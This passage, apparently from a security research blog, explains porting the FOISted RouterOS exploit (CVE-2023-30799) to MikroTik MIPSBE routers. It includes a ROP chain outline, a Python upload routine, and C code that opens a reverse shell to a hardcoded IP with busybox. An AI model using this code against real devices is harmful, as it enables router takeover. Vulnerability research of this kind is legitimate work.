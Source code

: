 source.\\n\\n!\[Brute force login attempts\](/blog/mikrotik-foisted-revisited/bruteforce-logs.png){:width="100%"}\\n\\nAll of this is to say, RouterOS suffers from a variety of issues that make guessing administrative credentials easier than it should be. We believe CVE-2023-30799 is much easier to exploit than the CVSS vector indicates.\\n\\n## Why Did This Fly Under the Radar?\\n\\nMargin Research’s FOISted exploit, while well done, only works on the RouterOS x86 virtual machine, which is likely the least deployed version of the software. Perhaps this is what elicited the lackluster response from the vendor. FOISted would have received more attention if it was developed for MikroTik hardware. Successful attacks on hardware are a big deal, because they have widespread real-world applications. Exploiting the x86 VM does not.\\n\\nTo our knowledge, there hasn’t been a public method for obtaining a root shell on MikroTik hardware for quite some time. There were several methods up until RouterOS 6.46 (2019), but they’ve all been stomped out. \[CVE-2021-41987\](https://teamt5.org/en/posts/vulnerability-mikrotik-cve-2021-41987/) was used in the wild for a time (no public exploit), but that’s been fixed for two years now. More recently, during pwn2own, DEVCORE team members popped RouterOS with \[CVE-2023-32154\](https://www.zerodayinitiative.com/advisories/ZDI-23-710/), but exploitation requires IPv6 to be enabled, and the attacker be on the same network (also no public exploit).\\n\\nMIPSBE is likely the most popular architecture for MikroTik hardware (although they also have various devices that use MIPSLE, ARM, and PowerPC), so we took on the task of porting the exploit to MIPSBE.\\n\\n## Simplification and Practical Issues\\n\\nOur first step to porting FOISted was to simplify the exploit. This is a general outline of how FOISted x86 works:\\n\\n1. Upload a stage2 executable and a statically linked busybox via FTP.\\n2. Craft a ROP Chain:\\n\\n a. Using a write primitive, write /flash/rw/disk/stage2 to a predefined memory location.\\n\\n b. Calculate addresses of \`chmod\` and \`execl\` in uclibc using the offsets from \`close\`.\\n\\n c. \`chmod(“/flash/rw/disk/stage2”, 777)\`\\n\\n d. \`execve(“/flash/rw/disk/stage2”, NULL, NULL)\`\\n\\n3. Stage2 makes the uploaded busybox executable\\n4. Stage2 creates a bindshell using the uploaded busybox\\n\\nThere is a significant amount of register shuffling in order to achieve all of that. We settled on a far easier approach. We save ourselves a lot of trouble by changing the stage2 executable to a shared object. This allows us to skip \`chmod\`, and replace \`execve\` with \`dlopen\`. \`dlopen\` is referenced by the vulnerable binary (\`/nova/bin/www\`) so offsets into uclibc don’t have to be calculated. We can execute arbitrary code via \`dlopen\` by creating a function with a \[constructor attribute\](https://gcc.gnu.org/onlinedocs/gcc-4.7.0/gcc/Function-Attributes.html). Something like this:\\n\\n\`\`\`c\\n#include \\n#include \\n#include \\n#include \\n#include \\n#include \\n#include \\n\\nstatic void before\_main(void) \_\_attribute\_\_((constructor));\\n\\nstatic void before\_main(void)\\n{\\n chmod("/flash/rw/disk/busybox", 0777);\\n struct sockaddr\_in sa;\\n int s;\\n\\n sa.sin\_family = AF\_INET;\\n sa.sin\_addr.s\_addr = inet\_addr("10.12.70.252");\\n sa.sin\_port = htons(1270);\\n\\n s = socket(AF\_INET, SOCK\_STREAM, 0);\\n connect(s, (struct sockaddr \*)&sa, sizeof(sa));\\n dup2(s, 0);\\n dup2(s, 1);\\n dup2(s, 2);\\n\\n char \* const argv\[\] = { "/flash/rw/disk/busybox", "ash", "-i", NULL };\\n execve("/flash/rw/disk/busybox", argv, NULL);\\n}\\n\`\`\` \\n\\nWith those changes, the x86 exploit is simplified to this:\\n\\n1. Upload a stage2 executable and a statically linked busybox via FTP.\\n2. Craft a ROP Chain:\\n\\n a. Using a write primitive, write /flash/rw/disk/stage2 to a predefined memory location\\n\\n b. Call \`dlopen(“/flash/rw/disk/stage2, 1)\`\\n3. Stage2 makes the uploaded busybox executable\\n4. Stage2 creates a bindshell using the uploaded busybox\\n\\nThere are still some issues here, though. The exploit isn’t practical for most real-world scenarios. Specifically:\\n\\n1. Most real world targets don’t expose the FTP interface.\\n2. A bindshell is typically going to be blocked/filtered and inaccessible.\\n\\nBoth issues are fairly easy to solve. First, the RouterOS web interface allows authenticated users to upload files to a persistent storage area. Nothing is straightforward when it comes to RouterOS, but the file upload logic is fairly reasonable, and we were able to work it into Margin Research’s \[webfig.py\](https://github.com/MarginResearch/FOISted/blob/master/webfig.py) seamlessly.\\n\\n\`\`\`python\\ndef upload(self, filename: bytes, data: bytes):\\n enc = self.tx.encrypt(filename) + self.tx.encrypt(b'\\x20' \* 8)\\n enc = web\_encode(enc)\\n packed = self.tracker.pack(enc)\\n param = urllib.parse.quote(packed)\\n\\n files = {'file': (filename, data)}\\n\\n r = requests.post(url = "http://" + self.host + "/jsproxy/upload?" + param, files=files)\\n if r.status\_code != 200:\\n print(r.content)\\n raise ValueError(f'Status code: {r.status\_code}')\\n\`\`\`\\n\\nThe bind shell issue is also trivial. We simply changed “stage2” to send out a single reverse shell (see the C code above). This has the added benefit of cleanly exiting when the attacker is done with the reverse shell, which allows \`www\` to respawn (and prevents an autosupout.rif from being generated).\\n\\n## Finding a MIPS ROP Chain\\n\\nNow with a simplified approach, the individual MIPS gadgets become easy to find. The ROP chain is generally reduced to:\\n\\n1. Move \`$sp\` to attacker controlled data.\\n2. Move an attacker controlled filename to \`$a0\`.\\n3. Call \`dlopen\`.\\n\\nThe gadgets can be reliably found in three functions for all the versions of RouterOS we tested